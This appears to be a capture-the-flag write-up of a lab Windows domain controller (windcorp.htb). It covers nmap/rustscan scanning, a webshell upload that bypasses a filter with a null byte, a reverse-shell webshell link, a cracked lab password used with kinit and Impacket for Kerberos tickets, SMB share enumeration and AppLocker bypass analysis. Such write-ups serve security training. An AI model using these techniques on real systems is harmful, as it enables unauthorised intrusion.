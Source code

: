# Rustscan & Nmap
```bash
rustscan -a $IP 

sudo nmap -sC -sV -oA nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49668,49674,53876,65133,65142 $IP

xsltproc -o beauty-scan.html /opt/nmap-bootstrap-xsl/nmap-bootstrap.xsl nmap.xml

DNS:hathor.windcorp.htb
Domain: windcorp.htb0
```

* https://github.com/honze-net/nmap-bootstrap-xsl#build-an-html-file-for-sharing

# Shell as windcorp/web
### Webshell
80 -> Web title -> Google default creds -> File Transfer

Upload webshell -> bypassing by adding `%00.jpg` -> "Copy" the file inorder to rename to get the `.aspx` extenstion.

### Enum
* https://0xdf.gitlab.io/2022/11/19/htb-hathor.html#shell


### INSOMNIA Shell
Adding ` 2>&1` to the end of command in the webshell to get more infos. e.g. `powershell -c Get-AppLockerPolicy -effective -xml 2>&1`

Both PowerShell and unsigned binaries like `nc.exe` are going to fail connecting out either antivirus or request not support. Probably AppLocker.
I’ll try a more full-featured webshell, like Insomnia. It has a built in reverse shell capability:

* https://github.com/A1vinSmith/pentest/blob/master/shell/insomnia_shell.aspx

# Shell as Bill
### Enum
* https://github.com/A1vinSmith/Get-bADpasswords

```cmd powershell
c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-18032022-044046.csv
type exported_windcorp-18032022-044046.csv
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)

c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-04102021-113140.csv
type exported_windcorp-04102021-113140.csv
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)
active;weak;regular;BeatriceMill;S-1-5-21-3783586571-2109290616-3725730865-5992;9cb01504ba0247ad5c6e08f7ccae7903;'leaked-passwords-v7'

c:\Get-bADpasswords\Accessible\CSVs>whoami
whoami
windcorp\web

c:\Get-bADpasswords\Accessible\CSVs>powershell $ExecutionContext.SessionState.LanguageMode
powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage			<- CLM

c:\Get-bADpasswords\Accessible\CSVs>powershell get-applockerPolicy -effective -xml <- or without the -c
powershell get-applockerPolicy -effective -xml
<AppLockerPolicy Version="1"><RuleCollection Type="Appx" EnforcementMode="Enabled"><FilePublisherRule Id="a9e18c21-ff8f-43cf-b9fc-db40eed693ba" Name="(Default Rule) All signed packaged apps" Description="Allows members of the Everyone group to run packaged apps that are signed." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePublisherCondition PublisherName="*" ProductName="*" BinaryName="*"><BinaryVersionRange LowSection="0.0.0.0" HighSection="*" /></FilePublisherCondition></Conditions></FilePublisherRule></RuleCollection><RuleCollection Type="Dll" EnforcementMode="Enabled"><FilePublisherRule Id="5b74e91f-e7d9-4348-a21b-047d2901c659" Name="Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" Description="" UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePublisherCondition PublisherName="O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" ProductName="*" BinaryName="*"><BinaryVersionRange LowSection="*" HighSection="*" /></FilePublisherCondition></Conditions></FilePublisherRule><FilePathRule Id="059bf360-e712-427a-8255-59d182bc4cd5" Name="%OSDRIVE%\share\scripts\7-zip64.dll" Description="" UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll" /></Conditions><Exceptions><FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll:*" /></Exceptions></FilePathRule><FilePathRule Id="3737732c-99b7-41d4-9037-9cddfb0de0d0" Name="(Default Rule) All DLLs located in the Program Files folder" Description="Allows members of the Everyone group to load DLLs that are located in the Program Files folder." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%PROGRAMFILES%\*" /></Conditions></FilePathRule><FilePathRule Id="3a07aecc-17f3-43e5-911b-ddb7e4d7353f" Name="%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll" Description="" UserOrGroupSid="S-1-5-21-3783586571-2109290616-3725730865-10102" Action="Allow"><Conditions><FilePathCondition Path="%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll" />

Name="%OSDRIVE%\share\scripts\7-zip64.dll"
"%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll"
```

With AppLocker enabled the files that a user can execute get restricted by the AppLocker policy. Looking at
the policy, we can see that AppLocker trusts Microsoft as a publisher. So `Sysinternals` tools can be used
to find writable paths to bypass AppLocker rules. We can use the tool `Accesschk`.

First of all, we download it on our local machine and unzip the archive. Now, we need to find a way to
transfer the executable to the remote machine. Using common Powershell commands like `Copy-Item`,
`wget` or `iwr` yielded no results, most likely due to firewall rules . So, an easy bypass to this problem is to
utilize the File Manager option from the website once again after we change the extension of the file to
`.txt`

```bash
crackmapexec smb $IP -u beatricemill -p '!!!!ilovegood17'
SMB         10.129.47.158   445    10.129.47.158    [*]  x64 (name:10.129.47.158) (domain:10.129.47.158) (signing:True) (SMBv1:False)
SMB         10.129.47.158   445    10.129.47.158    [-] 10.129.47.158\beatricemill:!!!!ilovegood17 STATUS_NOT_SUPPORTE
```

It's not supported and have to go with the Kerberos ticket way.

### Kerberos on Linux (Linux Lateral Movement)
Linux clients can authenticate to Active Directory servers via Kerberos as a Windows machine would.

To use the `kinit` command, which is used to acquire a Kerberos ticket-granting ticket (TGT) for the current user. To request a TGT, we just need to call kinit without parameters and enter the user's AD password.

When users attempt to use Kerberos and specify a principal or user name without specifying what administrative Kerberos realm that principal belongs to, the system appends the default realm. The default realm may also be used as the realm of a Kerberos service running on the local machine. Often, the default realm is the uppercase version of the local DNS domain.

But since I left it empty, I need to config the `/etc/krb5.conf` with the victim domain now. Let's use the infos from rust and nmap. One thing that the default realm is case sensitive.

* https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/system-level_authentication_guide/configuring_a_kerberos_5_server
* https://docs.bmc.com/docs/decisionsupportserverautomation/85/locating-active-directory-kdcs-350325160.html
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns#active-directory-servers

```bash
nslookup -type=srv _kerberos._tcp.windcorp.htb
Server:         10.129.47.158
Address:        10.129.47.158#53

_kerberos._tcp.windcorp.htb     service = 0 100 88 hathor.windcorp.htb.

sudo kinit beatricemill
Password for beatricemill@WINDCORP.HTB: 

sudo klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: beatricemill@WINDCORP.HTB

Valid starting     Expires            Service principal
03/11/23 14:21:32  04/11/23 00:21:32  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 04/11/23 14:21:11

sudo smbclient -L //hathor.windcorp.htb -U beatricemill@windcorp.htb -N -k
WARNING: The option -k|--kerberos is deprecated!
session setup failed: NT_STATUS_CONNECTION_RESET

sudo smbclient -L //hathor.windcorp.htb -U beatricemill@windcorp.htb -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        share           Disk      
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

sudo klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: beatricemill@WINDCORP.HTB

Valid starting     Expires            Service principal
03/11/23 14:21:32  04/11/23 00:21:32  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 04/11/23 14:21:11
03/11/23 14:36:16  04/11/23 00:21:32  cifs/hathor.windcorp.htb@WINDCORP.HTB
        renew until 04/11/23 14:21:11
```

One thing need to be remind, TO turn it on&off the switch

```conf
# HTB box
# nameserver 10.129.47.158 	<- for using kinit to get a ticket by putting victim's address
nameserver 10.10.16.2 		<- for running the smbclient. it's need by using Wireshark to investigate	
```

##### Alternatively using Impacket
```bash
impacket-getTGT windcorp.htb/beatricemill:'!!!!ilovegood17'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in beatricemill.ccache
```

##### Looking in to the share
```bash
sudo smbclient //hathor.windcorp.htb/share -U beatricemill@windcorp.htb -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Nov  3 14:43:25 2023
  ..                                DHS        0  Wed Apr 20 00:45:15 2022
  AutoIt3_x64.exe                     A  1013928  Fri Mar 16 02:17:44 2018
  Bginfo64.exe                        A  4601208  Fri Sep 20 08:15:38 2019
  scripts                             D        0  Tue Mar 22 10:22:59 2022


smb: \scripts\> dir
  .                                   D        0  Tue Mar 22 10:22:59 2022
  ..                                  D        0  Fri Nov  3 14:53:25 2023
  7-zip64.dll                         A  1076736  Tue Mar 22 02:43:58 2022
  7Zip.au3                            A    54739  Fri Oct 19 09:02:02 2012
  ZipExample.zip                      A     2333  Sun Oct  7 10:50:30 2012
  _7ZipAdd_Example.au3                A     1794  Mon Oct  8 00:15:16 2012
  _7ZipAdd_Example_using_Callback.au3      A     1855  Mon Oct  8 00:17:14 2012
  _7ZipDelete_Example.au3             A      334  Sun Oct  7 14:37:38 2012
  _7ZIPExtractEx_Example.au3          A      859  Sun Oct  7 14:38:10 2012
  _7ZIPExtractEx_Example_using_Callback.au3      A     1867  Sun Oct  7 12:04:14 2012
  _7ZIPExtract_Example.au3            A      830  Sun Oct  7 14:37:50 2012
  _7ZipFindFirst__7ZipFindNext_Example.au3      A     2027  Sun Oct  7 12:05:12 2012
  _7ZIPUpdate_Example.au3             A      372  Sun Oct  7 14:39:04 2012
  _Archive_Size.au3                   A      886  Sun Jan 23 22:51:45 2022
  _CheckExample.au3                   A      201  Sun Oct  7 12:51:30 2012
  _GetZipListExample.au3              A      144  Sun Oct  7 14:39:22 2012
  _MiscExamples.au3                   A      498  Fri Nov 28 05:04:30 2008

                10328063 blocks of size 4096. 2270930 blocks available
```

Inside the share there are two executables and one directory called scripts. Judging from the names of
the files the `Bginfo64.exe` is the BgInfo tool from Sysinternals and the `AutoIt3_x64.exe` file turns out to
be the AutoIT scripting framework.

```xml
<FilePublisherRule Id="754a60b8-3945-4ea3-ba37-f9ae529297f3" Name="Signed by O=AUTOIT CONSULTING LTD, L=BIRMINGHAM, C=GB" Description="" UserOrGroupSid="S-1-1-0" Action="Allow">
<Conditions>
<FilePublisherCondition PublisherName="O=AUTOIT CONSULTING LTD, L=BIRMINGHAM, C=GB" ProductName="*" BinaryName="*">
<BinaryVersionRange LowSection="*" HighSection="*"/>
</FilePublisherCondition>
</Conditions>
</FilePublisherRule>
```

As we can see from the above `applocker.xml`, they're matched and allowed.